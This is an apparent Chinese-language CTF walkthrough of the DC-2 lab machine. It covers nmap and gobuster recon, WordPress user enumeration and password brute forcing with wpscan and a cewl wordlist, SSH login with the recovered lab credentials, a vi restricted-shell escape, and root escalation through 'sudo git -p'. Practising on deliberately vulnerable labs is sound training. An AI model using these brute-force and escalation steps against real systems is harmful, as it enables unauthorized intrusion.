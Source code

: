 
## 靶机信息
- 级别：容易

## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.161

sudo nmap -sT --min-rate 10000 -p- 192.168.1.161 -oA tcp_scan/ports
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu

sudo nmap -sT -sV -sC -O -p 80,7744 192.168.1.161 -oA tcp_scan/details
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Did not follow redirect to http://dc-2/
|_http-server-header: Apache/2.4.10 (Debian)
MAC Address: 00:0C:29:E1:30:26 (VMware)


```

## Web


```shell
//修改本机hosts文件
sudo vim /etc/hosts //添加一条 192.168.1.161   dc-2

//看到是wordpress
```
### 目录爆破

```shell
gobuster dir -u http://192.168.1.161 -w /usr/share/wordlists/dirb/common.txt

/wp-admin             (Status: 301) [Size: 317] [--> http://192.168.1.161/wp-admin/]
/wp-content           (Status: 301) [Size: 319] [--> http://192.168.1.161/wp-content/]
/wp-includes          (Status: 301) [Size: 320] [--> http://192.168.1.161/wp-includes/]
```

![[Pasted image 20231019161445.png]]
```shell
 是一个Wordpress搭建的网站，使用wpscan枚举用户名
 wpscan --url dc-2 -e u //最好关掉http_proxy和https_proxy
```
![[Pasted image 20231019171859.png]]
发现了三个用户
```shell
admin jerry tom
```

提示使用cewl

### cewl
```shell
"Cewl" 是一个用于收集网站上的单词和短语的命令行工具。这个工具通常用于信息收集和渗透测试，以帮助渗透测试人员和安全专家收集有关目标网站的有用信息，例如潜在的用户名、密码、子域名、敏感词汇等。

"Cewl" 的名称是"Custom Word List Generator"的缩写，它的主要功能是生成自定义单词列表。工具的使用通常需要指定目标网站的 URL，并可以选择不同的选项，以定制生成的单词列表的内容。

"Cewl" 工作的方式通常是通过爬行目标网站的网页，提取其中的文本，并然后从中提取单词和短语。这些单词和短语可以用于后续渗透测试、口令破解、社会工程学攻击等任务。
```

```shell
cewl http://dc-2 > password
```

### WpScan爆破
```shell
wpscan --url dc-2 -U user -P password  
[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - jerry / adipiscing                                                                                                        
[SUCCESS] - tom / parturient

cat  creds | awk -F '-' '{print $2}' | > creds //信息处理
```

![[Pasted image 20231019172911.png]]

登录wp-admin找到flag2

flag2提示：If you can't exploit WordPress and take a shortcut, there is another way.

根据提示尝试用tom账户登录ssh，成功登录
```shell
ssh tom@192.168.1.161 -p 7744
//passwd:parturient
```

### Way2(Wordpress利用)
```shell
这里是不能利用的，因为没有开启主题和插件，则无法上传反弹shell
```



## 提权

```shell
less flag3.txt
```

![[Pasted image 20231019173557.png]]

```shell
刚登录时发现绝大部分命令都不能运行 使用vi进行逃逸
vi
:set shell=/bin/sh
:shell
然而换成sh还是不能执行命令，添加一下环境变量

export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

```shell
1. `export`：这是一个用于设置环境变量的命令。通过使用 `export` 命令，您可以将一个值分配给一个环境变量，使它在当前会话中可用。
    
2. `PATH`：`PATH` 是一个特殊的环境变量，它包含一组目录的路径，系统会在这些目录中查找可执行文件。这些目录路径之间使用冒号 `:` 分隔。
    
3. `=$PATH`：这部分将现有的 `PATH` 环境变量的值分配给 `PATH` 变量。这是为了确保不会丢失现有的 `PATH` 配置。
    
4. `:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`：这部分是要添加到 `PATH` 中的新路径。每个路径之间都使用冒号 `:` 分隔。这些路径列出了一些系统中常用的可执行文件的存储位置。
    
    - `/usr/local/sbin` 和 `/usr/local/bin`：这些目录通常包含用户自定义安装的软件的可执行文件。这里存放的程序通常是管理员或用户自己安装的，而不是系统自带的。
    - `/usr/sbin` 和 `/usr/bin`：这些目录包含系统自带的可执行文件，通常由操作系统提供。
    - `/sbin` 和 `/bin`：这些目录包含系统维护和恢复工具，例如重启、挂载文件系统等。

这个命令的目的是将用户自定义的可执行文件目录（`/usr/local/sbin` 和 `/usr/local/bin`）以及系统默认的可执行文件目录（`/usr/sbin`、`/usr/bin`、`/sbin` 和 `/bin`）添加到 `PATH` 中，以便在终端会话中能够直接运行这些可执行文件，而不必提供完整的路径。这对于用户自定义安装的软件或脚本非常有用，因为它们通常存储在 `/usr/local` 目录下，而不在默认的系统可执行文件目录中。
```

```shell
在tom用户中进行尝试，没有找打提权的路径，passwd文件中看到jerry用户，根据提示切换到jerry
```
![[Pasted image 20231019175019.png]]
```shell
sudo git -p help config
-p:[-p|--paginate|--no-pager] //可以调用命令
!/bin/bash
```
![[Pasted image 20231019175220.png]]

